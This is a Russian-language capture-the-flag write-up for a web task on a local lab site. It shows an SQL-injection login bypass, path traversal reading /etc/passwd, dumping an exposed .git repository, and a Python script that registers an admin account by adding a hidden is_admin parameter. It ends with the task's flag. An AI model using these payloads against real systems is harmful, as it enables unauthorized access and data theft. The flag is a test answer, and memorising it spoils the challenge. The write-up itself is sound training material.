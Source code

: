 # 3D Models Inc

***Описание***: Я, конееечно же, всё понимаю, но так бездарно вести разработку сайтов! Это надо уметь...

Ссылка: `http://localhost:43434`

Формат: EclipseCTF{...}

---
### Решение - Этап 1. Исследование ресурса

Переходим на сайт:

![ScreenShot](Assets/For_Tasks/3D-models-inc-1.png)

Видим две формы - регистрация и авторизация. Логинов и паролей мы потенциально не знаем, но можно подобрать **Test:Test**, либо зарегистрироваться, либо войти через SQLi:

```
Логин: ' OR 1=1 --
Пароль: ' OR 1=1 --
(Доступны различные вариации, достаточно и просто в логин вставить нагрузку)
```

Таким образом, мы попадаем на главную страницу:

![ScreenShot](Assets/For_Tasks/3D-models-inc-2.png)

### Решение - Этап 2. Ошибка в профиле и отображение страниц (Path Traversal)

Переходим во вкладку "**Profile**":

![ScreenShot](Assets/For_Tasks/3D-models-inc-3.png)

>**TestUserName** - первый пользователь в таблице с пользователями внутри сервиса, поэтому при эксплуатации SQLi, мы получаем доступ относительно этого пользователя

Замечаем, что присутствует ошибка, связанная с `session_start()`. При этом мы получаем сведения о расположении сайта внутри контейнера - `/var/www/html/content_blocks/profile_content.php`

Далее обращаем внимание на то, как подгружается страница `profile_content.php` в URL-адресе:

```
http://192.168.31.9:43434/home.php?view=profile_content.php
```

Параметр `?view=`. Интересно! А еще интереснее, что нашли `Path Traversal`. Убедимся в этом:

```
http://192.168.31.9:43434/home.php?view=../../../../etc/passwd
```

![ScreenShot](Assets/For_Tasks/3D-models-inc-4.png)

Отлично! Но чем нам это может помочь? Если у вас получится докрутить до RCE - удачи, вы найдете новый вектор. Но, на мой взгляд, можно пойти по другому пути.

### Решение - Этап 3. Нахождение git-репозитория

Исследуем директории через `wfuzz`:

![ScreenShot](Assets/For_Tasks/3D-models-inc-5.png)

При переходе на `database` обнаруживаем `Forbidden`. Но, удача! 200 на `.git/HEAD`:

![ScreenShot](Assets/For_Tasks/3D-models-inc-6.png)

Используем `git-dumper` для того, чтобы выгрузить репозиторий:

```sh
git-dumper http://192.168.31.9:43434/.git/ ~/web-3d-models
```

![ScreenShot](Assets/For_Tasks/3D-models-inc-7.png)

### Решение - Этап 4. Исследование git-репозитория

Переходим в папку с полученным репозиторием:

![ScreenShot](Assets/For_Tasks/3D-models-inc-8.png)

Видим директорию `flag`. Забираем 2-ю часть флага:

![ScreenShot](Assets/For_Tasks/3D-models-inc-9.png)

Далее нам надо найти 1-ю и 3-ю части флага. Заглянем в директорию с БД:

![ScreenShot](Assets/For_Tasks/3D-models-inc-10.png)

Теперь мы знаем полный путь и название файла. Можно забрать сам файл, а можно и скачать напрямую:

```
http://192.168.31.9:43434/database/service-db.db
```

Открываем БД в DBBrowser:

![ScreenShot](Assets/For_Tasks/3D-models-inc-11.png)

Вот и наша третья часть флага. Но где первая? Вопрос крайне интересный. Для этого нам необходимо немного исследовать исходники и понять один ключевой пробел в безопасности, а именно - скрытый параметр при создании пользователя:

![ScreenShot](Assets/For_Tasks/3D-models-inc-12.png)

Иными словами, если нет передачи параметра `is_admin`, то он по умолчанию будет `False`. Но при регистрации мы можем передать этот параметр! Сплойт для создания админа:

```python
import requests
import os
import re
from bs4 import BeautifulSoup


sess = requests.Session()


def create_user_data():
	return [f"hacker-{os.urandom(8).hex()}", os.urandom(8).hex()]


creds = create_user_data()


# URL: http://localhost:1337/register.php
def register_admin_account(url, session, username, password):
	register_data = {
		"name": username,
		"username": username,
		"password": password,
		"is_admin": True,
		"register": "" # Да-да, тут нюанс!
	}

	register_resp = session.post(url, register_data)

	if (register_resp.status_code == 200):
		return f"[+] ADMIN Account was registered: {username} | {password}"
	else:
		return 0 


if __name__ == "__main__":
	print(register_admin_account("http://192.168.31.9:43434/register.php", sess, creds[0], creds[1]))
```

Запускаем:

![ScreenShot](Assets/For_Tasks/3D-models-inc-13.png)

Проходим авторизацию с полученными данными:

![ScreenShot](Assets/For_Tasks/3D-models-inc-14.png)

И вот она - последняя часть флага!

P.S. Я уверен в том, что таск можно решить и несколько иными способами на тех или иных этапах. Тут уже кто и как подходит к решению задачи! Так называемое "эталонное решение" представлено здесь

---

***Флаг***: `EclipseCTF{n0t_3v3n_gh0st5_4r3_th1s_3mpty}`